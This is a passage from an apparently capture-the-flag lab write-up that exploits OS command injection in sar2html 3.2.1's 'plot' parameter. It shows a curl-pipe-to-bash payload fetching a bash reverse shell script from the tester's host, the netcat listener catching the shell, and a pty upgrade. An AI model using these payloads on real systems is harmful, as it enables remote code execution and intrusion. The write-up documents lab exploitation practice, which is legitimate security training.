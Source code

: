 ```bash
http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
- According to PoC, seem like parameter `plot` in sar2html application, is vuln to OS command injection, which lead to RCE.
- So for PoC, let host a web server, using python3 module: `sudo python3 -m http.server 80`
- Try RCE to get connection back: `?plot=;curl http://$LHOST/rce`
```bash
sudo python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
192.168.188.35 - - [06/Sep/2021 13:06:31] "GET /rce HTTP/1.1" 404 -
```
- And we successfully recieve connection back, so we indeed got RCE

-----------
## Exploitation
-----------

### Port 80 - Web server
##### RCE inside sar2html 3.2.1 application
- We will host our bash reverse shell script, get the server to cURL it and pass content to bash
```bash
# rev.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.49.188/443 0>&1
```

- Host the web server containing our payload and set up listener
- This is our final payload: `?plot=;curl http://$LHOST/rev.sh | bash`
- Trigger it, and we received reverse shell
```bash
sudo python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
192.168.188.35 - - [06/Sep/2021 13:06:31] "GET /rev.sh HTTP/1.1" 200 -
```

```bash
sudo nc -lvp 443

listening on [any] 443 ...
192.168.188.35: inverse host lookup failed: Unknown host
connect to [```bash
192.168.49.188
```] from (UNKNOWN) [192.168.188.35] 47406
/bin/sh: 0: can't access tty; job control turned off
$ 
```

- We then stabalize our shell by spawning tty shell using python3 pty module: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@sar:/var/www/html/sar2HTML$ 
```
